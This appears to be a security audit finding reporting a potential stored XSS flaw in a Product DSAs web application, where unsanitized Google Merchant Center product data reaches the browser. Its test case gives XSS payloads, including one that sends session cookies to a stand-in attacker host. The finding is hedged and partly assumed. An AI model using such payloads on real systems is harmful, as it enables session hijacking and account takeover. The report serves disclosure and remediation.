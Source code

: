 - Vulnerability Name: Potential Stored Cross-Site Scripting (XSS) in Product Data Display

- Description:
  1. An attacker with access to Google Merchant Center (GMC) modifies product data (e.g., title, description) to include a malicious JavaScript payload.
  2. The Product DSAs application, through its data gateway, fetches this modified product data from GMC.
  3. The backend API of Product DSAs serves this product data to the frontend web application without proper sanitization.
  4. A user, while interacting with the Product DSAs web interface (e.g., reviewing product data, campaign previews), triggers the rendering of this unsanitized product data in their browser.
  5. The malicious JavaScript payload embedded in the product data executes in the user's browser within the context of the Product DSAs web application.

- Impact:
  - **High**: Successful exploitation can lead to session hijacking (stealing user session cookies), account takeover, or manipulation of Google Ads campaign settings within the application's context. An attacker could potentially modify campaigns, budgets, or targeting settings, leading to financial loss or reputational damage for the victim.

- Vulnerability Rank: High

- Currently Implemented Mitigations:
  - **None evident in the provided backend code.** The provided backend code focuses on data retrieval and processing but lacks explicit output sanitization mechanisms for web rendering. It is assumed that backend is not sanitizing data before sending to frontend.

- Missing Mitigations:
  - **Input Sanitization on the Backend**: The backend API should sanitize all data retrieved from external sources like Google Merchant Center before serving it to the frontend. This should include encoding or escaping HTML special characters and JavaScript-sensitive characters to prevent the execution of malicious scripts.
  - **Context-Aware Output Encoding on the Frontend**: The frontend web application should employ context-aware output encoding when rendering any data received from the backend, especially product data that originates from GMC or user inputs. This ensures that data is treated as data and not executable code in the browser.
  - **Content Security Policy (CSP)**: Implementing a strict Content Security Policy (CSP) can significantly mitigate the impact of XSS vulnerabilities by controlling the sources from which the browser is allowed to load resources and execute scripts.

- Preconditions:
  1. **Attacker Access to Google Merchant Center (GMC):** The attacker needs to have sufficient permissions within the victim's Google Merchant Center account to modify product data. This could be through compromised credentials or insider access.
  2. **Vulnerable Frontend Application:** The Product DSAs frontend application must be vulnerable to XSS, meaning it renders backend data without proper output encoding.
  3. **User Interaction:** A user with access to the Product DSAs application needs to interact with the application in a way that triggers the display of the compromised product data.

- Source Code Analysis:
  - **File: /code/app/data_gateway.py:** This file is responsible for fetching data from BigQuery, which in turn is populated from Google Merchant Center. The `load_products` function executes SQL queries (`get-products.sql`) to retrieve product information.
  - **File: /code/app/main.py:** The `execute` function orchestrates the data flow, calling `data_gateway.load_products` to fetch product data. This data is then used to generate campaign data for Google Ads Editor. The `server/server.py` (not analyzed in detail here as focus is backend) would likely serve this data via API endpoints.
  - **Absence of Sanitization:** Review of `/code/app/data_gateway.py`, `/code/app/main.py`, and `/code/server/server.py` shows no explicit sanitization or output encoding of product data before it's potentially served through the API. The code focuses on data retrieval and processing for Google Ads, not secure web rendering.

  ```
  # Visualization of potential data flow and XSS injection point:

  Google Merchant Center (GMC) --> [Attacker injects XSS payload into product data] --> Modified GMC Product Data
                                      |
                                      V
  Product DSAs Data Gateway (/code/app/data_gateway.py) --> Fetches Modified Product Data from GMC
                                      |
                                      V
  Product DSAs Backend API (/code/server/server.py) --> Serves Unsanitized Product Data via API
                                      |
                                      V
  Product DSAs Frontend Web Application --> Renders Unsanitized Product Data in User's Browser --> [XSS Payload Execution]
  ```

- Security Test Case:
  1. **Precondition:** Ensure you have access to a Google Merchant Center account connected to a Product DSAs instance.
  2. **Login to Google Merchant Center:** Access the Google Merchant Center interface.
  3. **Modify Product Data:** Locate a product in your GMC feed and edit its `title` field to include the following XSS payload: `<script>alert('XSS Vulnerability')</script>`. Save the changes in GMC.
  4. **Access Product DSAs Web Application:** Open the Product DSAs web application in a browser and log in as a user with access.
  5. **Navigate to Product Data Display:** Navigate to a section in the Product DSAs application where product data (including titles) is displayed. This might be a product list view, a campaign preview, or any page that shows product information fetched from GMC.
  6. **Observe for XSS:** Check if an alert box with the message "XSS Vulnerability" appears in your browser when the page loads or when you interact with elements displaying the modified product title.
  7. **Verify Cookie Stealing (Advanced):** If the alert is successful, modify the payload to attempt cookie stealing. For example, change the payload to: `<script>window.location='http://attacker-server.com/log?cookie='+document.cookie;</script>`. Replace `http://attacker-server.com/log` with a server you control to capture the cookies. Monitor your attacker server logs to see if session cookies from the Product DSAs application are successfully sent when you interact with the application's interface displaying the modified product.